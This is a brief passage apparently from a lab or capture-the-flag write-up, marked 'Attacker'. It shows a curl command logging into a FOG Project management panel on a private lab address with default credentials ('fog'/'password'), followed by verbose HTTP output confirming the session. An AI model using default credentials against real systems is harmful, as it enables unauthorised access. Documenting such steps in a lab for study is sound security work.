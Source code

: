 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`curl -s "http://192.168.56.141/fog/management/index.php?node=home" -d "uname=fog&upass=password&ulang=English&login=" -L`:
```
*   Trying 192.168.56.141:80...
* Connected to 192.168.56.141 (192.168.56.141) port 80
> POST /fog/management/index.php?node=home HTTP/1.1
> Host: 192.168.56.141
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Length: 45
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 45 bytes
< HTTP/1.1 302 Found ←
< Date: Tue, 15 Oct 2024 10:41:47 GMT
< Server: Apache/2.4.38 (Debian)
< Content-Security-Policy: default-src 'none';script-src 'self' 'unsafe-eval';connect-src 'self';img-src 'self' data:;style-src 'self' 'unsafe-inline';font-src 'self';
< Access-Control-Allow-Origin: *
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Strict-Transport-Security: "max-age=15768000"
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< X-Robots-Tag: none
< X-Frame-Options: SAMEORIGIN
< Set-Cookie: PHPSESSID=u73mg8ga33t8fft17is94o55g1; path=/
* Need to rewind upload for next request
< Location: index.php?node=home
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
< 
* Closing connection
* Issue another request to this URL: 'http://192.168.56.141/fog/management/index.php?node=home'
* Switch from POST to GET
* Hostname 192.168.56.141 was found in DNS cache
*   Trying 192.168.56.141:80...
* Connected to 192.168.56.141 (192.168.56.141) port 80
> GET /fog/management/index.php?node=home HTTP/1.1
> Host: 192.168.56.141
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK ←
< Date: Tue, 15 Oct 2024 10:41:47 GMT
< Server: Apache/2.4.38 (Debian)
< X-Frame-Options: sameorigin
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< Strict-Transport-Security: max-age=31536000
< Content-Security-Policy: default-src 'none';script-src 'self' 'unsafe-eval';connect-src 'self';img-src 'self' data:;style-src 'self' 'unsafe-inline';font-src 'self';
< Access-Control-Allow-Origin: *
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Set-Cookie: PHPSESSID=hq4smdjdhprqe8in6atvnf76lu; path=/ ←
< Vary: Accept-Encoding
< Connection: close
```